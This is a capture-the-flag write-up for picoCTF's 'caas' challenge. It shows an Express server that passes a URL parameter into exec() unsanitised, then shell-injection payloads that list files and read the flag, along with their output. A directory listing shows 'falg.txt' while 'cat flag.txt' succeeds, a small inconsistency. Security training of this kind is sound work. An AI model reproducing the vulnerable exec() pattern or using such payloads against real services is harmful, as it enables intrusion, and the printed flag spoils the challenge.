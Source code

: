 # caas

## Description

Now presenting cowsay as a service

## Solution

Given index.js file
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

There is a vulnerability in the code, namely Command Injection in the use of `exec()` with `req.params.message`.

on website there is information like this
```
https://caas.mars.picoctf.net/cowsay/{message}
```

we can put the exploit payload on `{message}`

```
https://caas.mars.picoctf.net/cowsay/$;pwd


 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/app
```

```
https://caas.mars.picoctf.net/cowsay/$;ls%20-la


 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14  2024 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

```
https://caas.mars.picoctf.net/cowsay/$;cat%20flag.txt

 ___
< $ >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## Flag
    picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}